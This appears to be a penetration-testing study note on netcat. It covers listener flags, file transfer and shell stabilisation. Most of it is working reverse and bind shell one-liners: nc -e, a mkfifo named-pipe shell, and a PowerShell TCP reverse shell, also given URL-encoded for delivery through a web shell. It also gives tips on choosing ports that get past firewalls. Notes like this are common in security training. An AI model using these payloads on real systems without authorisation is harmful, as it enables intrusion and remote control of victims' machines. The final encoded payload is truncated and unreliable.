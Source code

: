 ```yaml
---
{"dg-publish":true,"permalink":"/notes/netcat/"}
---
```


- "Swiss Army Knife" of networking.
- Perform all kinds of network interactions.
- Support [[Networking/TCP\|TCP]] and [[Networking/UDP\|UDP]]
- Used to receive reverse shells and connect to remote ports attached to bind shells on a target system.
- If you choose to use a **port below 1024**, you will need to use `sudo` when starting your listener.
- It's **good idea** to **use** a **well-known** port number (**80, 443 or 53** being good choices) as this is more likely to get **past** outbound **firewall rules** on the target.

| Command   | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| `-l`      | is used to tell netcat that this will be a listener                                |
| `-n`      | tells netcat not to resolve host names or use DNS. avoid DNS lookups and warnings. |
| `-v`      | is used to request a verbose output                                                |
| `-p`      | indicates that the port specification will follow.                                 |
| `-vv`     | Very Verbose (optional)                                                            |
| `-k`      | Keep listening after client disconnects                                            |
| `-w SECS` | Timeout for connects and final net reads                                           |
# Transfer files
1. On the destination machine
```shell
nc -lp 1234 > file.txt
```
2. On the source machine
```shell
nc -w 3 IP_destination 1234 < file.txt
```

# Shell stabilization
## Technique 1: Python
1. Uses Python to spawn a better featured bash shell;
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
some targets may need replace `python` with `python2` or `python3`
2. access to term commands such as `clear`.
```sh
export TERM=xterm
```
3. Background the shell using Ctrl + Z.
```sh
stty raw -echo; fg
```
This does two things: 
- First, it **turns off our own terminal echo** (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).
- then **foregrounds the shell,** thus completing the process.
- Note that **if the shell dies,** any input in your own terminal will **not be visible** (as a result of having disabled terminal echo). To **fix this, type** `reset` and press enter.
## Technique 2: rlwrap
- Rlwrap is a program which, in simple terms, gives us **access to history**, **tab autocompletion** and the **arrow keys** immediately upon receiving a shell
``` sh
rlwrap nc -lnvp <port>
```
- particularly useful when dealing with Windows shells
- On Linux target, it's possible to completely stabilise,
- using Ctrl + Z.
```sh
stty raw -echo; fg
```
## Technique 3: [[socat\|Socat]]
## Technique 4: [[Notes/SSH\|SSH]]

## Extra 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- On my machine to get info from stty
```sh
stty -a
```
- Next, in your reverse/bind shell, type in:
`stty rows <number>`  
and
`stty cols <number>`


</div></div>


# Reverse shell
## On the target
### nc basic bash
#### Linux
```sh
nc <LOCAL-IP> <PORT> -e /bin/bash
```
**On Windows** this technique will **work perfectly**, where a static binary is nearly always required
#### Windows
**Command Prompt**
```sh
nc 10.10.38.232 443 -e “cmd.exe”
```
powershell
```sh
nc 10.10.38.232 443 -e “powershell.exe”
> ```

this is **not included in most versions of netcat** as it is widely seen to be very insecure **so**:
### Create a [[named pipe\|named pipe]]
```sh
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
### Powershell reverse shell
It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a **webshell**)
```sh
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```sh
powershell+-c+"$client+%3d+New-Object+System.Net.Sockets.TCPClient('10.13.41.201',4747)%3b$stream+%3d+$client.GetStream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.Read($bytes,+0,+$bytes.Length))+-ne+0){%3b$data+%3d+(New-Object+-TypeName+System.Text.ASCIIEncoding).GetString($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+Out-String+)%3b$sendback2+%3d+$sendback+%2b+'PS+'+%2b+(pwd).Path+%2b+'>+'%3b$sendbyte+%3d+([text.encoding]%3a%3aASCII).GetBytes($sendback2)%3b$stream.Write($sendbyte,0,$sendbyte.Length)%3b$stream.Flush()}%3b$client.Close()"
```

```sh
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5
```
## On the attacker
65535 total number of ports
To open tcp/udp in a host, assosiate a shell to a port, force UDP/TCP conexions
port 30000
```bash
nc localhost 4747
```

ncat has more options like encrypt with ssl
``` bash
ncat --ssl 127.0.0.1 30001
```
### Listener revershell
Start a listener using rlwrap to try to simulate an interactive console
``` sh
rlwrap nc -lnvp 4747
```
# Bind shell
## On the target(listener)
```bash
nc -lnvp <port> -e /bin/bash
```

On Linux, however, we would instead use this code to create a listener for a bind shell:
[[named pipe\|named pipe]]
```sh
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Or get a cmd on windows
```sh
nc -lvnp <port> -e "cmd.exe"
```
## On the attacker
```bash
nc <target-ip> <chosen-port>
```
